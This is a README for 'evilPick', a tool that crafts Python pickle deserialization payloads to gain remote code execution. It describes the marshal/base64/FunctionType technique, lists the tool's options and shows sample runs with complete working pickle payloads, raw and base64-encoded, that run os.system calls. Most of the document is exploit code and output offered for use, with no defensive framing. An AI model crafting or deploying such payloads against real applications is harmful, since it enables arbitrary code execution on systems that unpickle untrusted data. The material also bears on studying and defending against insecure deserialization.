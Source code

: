 # evilPick
An Exploit Crafter to achieve Pickle Deserialization Remote Code Execution ,
Just provide the wanted to execute code and you're on the go.

It aims to automate in a simple way Exploit Crafting from python2.7 code files.
#### Know How
The main part of the exploit is written in  pickle machine language in order to invoke, on deserialization, the code provided by the user.

In particular the passed code is serialized with Marshall library, base64 encoded and put into the pickle machine code which
when deserialized will  :
- base64 decode the payload 
- marshal load the payload (in order to deserialize the code)
- statically build a function, inject the payload code in it
- call that function

## options 
- -f --foo  file_name.py  
craft an exploit that, on deserialization, will execute the given python2.7 code   
- -e --encode base64/hex 
encode the crafted exploit in base64 or hex 
- -s --file  new_file
the crafted exploit is then saved in a file
- -d --dynamic
dynamically write your python code and hit CTRL-C in a new line to end the code


## Examples
example.py code :
```python
import os
os.system("echo Hello World")
```
running evilPick passing the example.py file :
```sh
$ python evilPick.py --foo example.py 
___________________________________________________________
[^] Do you want to encode it? ( base64 or hex,leave for unicode) :        
[*] Crafted Evil Packet: 

ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'YwAAAAABAAAAAgAAAEMAAABzHQAAAGQBAGQAAGwAAH0AAHwAAGoBAGQCAIMBAAFkAABTKAMAAABOaf////9zEAAAAGVjaG8gSGVsbG8gV29ybGQoAgAAAHQCAAAAb3N0BgAAAHN5c3RlbSgBAAAAUgAAAAAoAAAAACgAAAAAcwgAAAA8c3RyaW5nPnQDAAAAZm9vAQAAAHMEAAAAAAEMAQ=='
tRtRc__builtin__
globals
(tRS''
tR(tR.

___________________________________________________________
[^] Do you want to save it? (y/n, leave to skip):  y
[^] Insert exploit name: example_exploit
[*] Writing it in example_exploit

__________________________Job_Done_________________________
```
running evilPick in dynamic mode with encode base64 option :
```sh
$ python evilPick.py -d -e base64 
___________________________________________________________
[*] Write code till SIGINT, have fun!

|import os
|os.system("echo Hello World!")
|^C

___________________________________________________________
[*] Crafted Evil Packet: 

Y3R5cGVzCkZ1bmN0aW9uVHlwZQooY21hcnNoYWwKbG9hZHMKKGNiYXNlNjQKYjY0ZGVjb2RlCihTJ1l3QUFBQUFCQUFBQUFnQUFBRU1BQUFCekhRQUFBR1FCQUdRQUFHd0FBSDBBQUh3QUFHb0JBR1FDQUlNQkFBRmtBQUJUS0FNQUFBQk9hZi8vLy85ekVRQUFBR1ZqYUc4Z1NHVnNiRzhnVjI5eWJHUWhLQUlBQUFCMEFnQUFBRzl6ZEFZQUFBQnplWE4wWlcwb0FRQUFBRklBQUFBQUtBQUFBQUFvQUFBQUFITUlBQUFBUEhOMGNtbHVaejUwQXdBQUFHWnZid0VBQUFCekJBQUFBQUFCREFFPScKdFJ0UmNfX2J1aWx0aW5fXwpnbG9iYWxzCih0UlMnJwp0Uih0Ui4=

___________________________________________________________
[^] Do you want to save it? (y/n, leave to skip):  n
```
running evilPick in quick mode providing : example.py (source code), encode schema base64 and destination file 
```sh
python evilPick.py -f example.py -e base64 -s new_exploit
___________________________________________________________
[*] Crafted Evil Packet: 

Y3R5cGVzCkZ1bmN0aW9uVHlwZQooY21hcnNoYWwKbG9hZHMKKGNiYXNlNjQKYjY0ZGVjb2RlCihTJ1l3QUFBQUFCQUFBQUFnQUFBRU1BQUFCekhRQUFBR1FCQUdRQUFHd0FBSDBBQUh3QUFHb0JBR1FDQUlNQkFBRmtBQUJUS0FNQUFBQk9hZi8vLy85ekVBQUFBR1ZqYUc4Z1NHVnNiRzhnVjI5eWJHUW9BZ0FBQUhRQ0FBQUFiM04wQmdBQUFITjVjM1JsYlNnQkFBQUFVZ0FBQUFBb0FBQUFBQ2dBQUFBQWN3Z0FBQUE4YzNSeWFXNW5QblFEQUFBQVptOXZBUUFBQUhNRUFBQUFBQUVNQVE9PScKdFJ0UmNfX2J1aWx0aW5fXwpnbG9iYWxzCih0UlMnJwp0Uih0Ui4=

___________________________________________________________
[*] Writing it in new_exploit

__________________________Job_Done_________________________
```

# Author
Lacerenza Francesco - Systems and Networks Security.
twitter: [@lacerenza_fra](https://twitter.com/lacerenza_fra)
linkedin: [lacerenzafrancesco](https://www.linkedin.com/in/francesco-lacerenza/)
